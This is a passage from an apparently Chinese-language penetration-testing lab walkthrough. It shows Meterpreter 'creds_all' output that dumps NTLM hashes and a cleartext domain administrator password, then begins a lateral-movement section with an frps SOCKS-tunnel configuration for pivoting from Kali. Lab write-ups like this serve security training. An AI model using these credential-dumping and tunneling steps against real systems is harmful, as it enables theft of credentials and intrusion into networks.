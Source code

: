 ```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain  LM                                NTLM                              SHA1
--------       ------  --                                ----                              ----
Administrator  GOD     9c4e2bb1a645a64b6d96bbec894387af  6a2ff5138ef3012467338a175e14f440  c465da655e9c19e0e7b82fb8cc147dea4ee7fb48
STU1$          GOD                                       0ba7dcdc7f5bef947c985490b99228c1  e5c0f994e94ef2ac378ddb8c784bfb33dda7927a

wdigest credentials
===================

Username       Domain  Password
--------       ------  --------
(null)         (null)  (null)
Administrator  GOD     dabaisec@2024
STU1$          GOD     

tspkg credentials
=================

Username       Domain  Password
--------       ------  --------
Administrator  GOD     dabaisec@2024

kerberos credentials
====================

Username       Domain   Password
--------       ------   --------
(null)         (null)   (null)
Administrator  GOD.ORG  dabaisec@2024
stu1$          god.org  
stu1$          GOD.ORG    
```

### 横向移动

#### 搭建sock隧道

kali上frps的配置`frps.ini`

```ini
[common]
bind_port = 7000
token = 192408  

dashboard_port = 7500
dashboard_user = admin
dashboard_pwd = 123456
enable_prometheus = true

log_file = /var/log/frps.log
log_level = info
log_max_days = 3
```
